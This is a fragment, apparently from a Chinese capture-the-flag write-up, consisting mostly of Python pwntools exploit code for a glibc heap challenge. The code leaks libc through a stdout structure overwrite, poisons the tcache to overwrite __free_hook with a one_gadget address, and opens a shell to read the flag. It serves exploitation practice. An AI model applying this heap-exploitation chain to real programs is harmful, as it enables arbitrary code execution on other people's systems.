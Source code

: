 ```python
re(0x50, p64(0) * 7 + p64(0x51) + p16(des)) # 踩低字节
re(0)

re(0x80)
re(0)

msg = re(0x80, p64(0x0FBAD1887) + p64(0) * 3 + p8(0x58))
leak_addr = u64(msg[:8])


free_hook_addr = leak_addr + 0x5648
LOG_ADDR('free_hook_addr', free_hook_addr)

gadget = [0x4f2c5, 0x4f322, 0x10a38c]
one_gadget = free_hook_addr - 0x3ed8e8 + gadget[1]
ba()
re(0x10)
re(0)

re(0x90)
re(0)

re(0x20)
re(0)

# 开始dump0x90
re(0x90)
for x in range(7):
    fr()

re(0)

re(0x10)
re(0x50, p64(0) * 3 + p64(0x51) + p64(free_hook_addr))
re(0)


re(0x90)
re(0)

re(0x90, p64(one_gadget))

# delete
io.sendlineafter(">> ", '2')
io.sendline('cat flag')
io.interactive()
```

注意：在实际打的时候，需要爆破一个字节。


